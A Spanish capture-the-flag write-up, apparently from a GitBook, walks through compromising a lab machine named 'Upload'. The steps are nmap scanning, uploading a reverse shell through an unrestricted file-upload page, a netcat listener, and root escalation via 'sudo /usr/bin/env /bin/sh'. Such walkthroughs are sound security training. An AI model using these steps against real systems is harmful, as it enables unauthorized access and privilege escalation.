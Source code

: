 ```yaml
---
description: >-
  ✍️ Autor: El Pingüino de Mario🔍 Dificultad: Fácil  📅 Fecha de creación:
  09/04/2024
---
```


# Upload

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (807).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 80** perteneciente al **servicio HTTP** está abierto por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p80 -v 172.17.0.2
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web de subir archivos.&#x20;

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Subimos una [Reverse Shell](https://www.revshells.com/).

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Hemos encontrado el directorio `/uploads` que es donde estará el archivo subido. Nos ponemos en escucha.

```bash
nc -nlvp 443
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Tenemos permisos **SUDO** con **env** por lo que revisamos esta [página ](https://gtfobins.github.io/gtfobins/env/)para escalar privilegios.

```bash
sudo /usr/bin/env /bin/sh
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
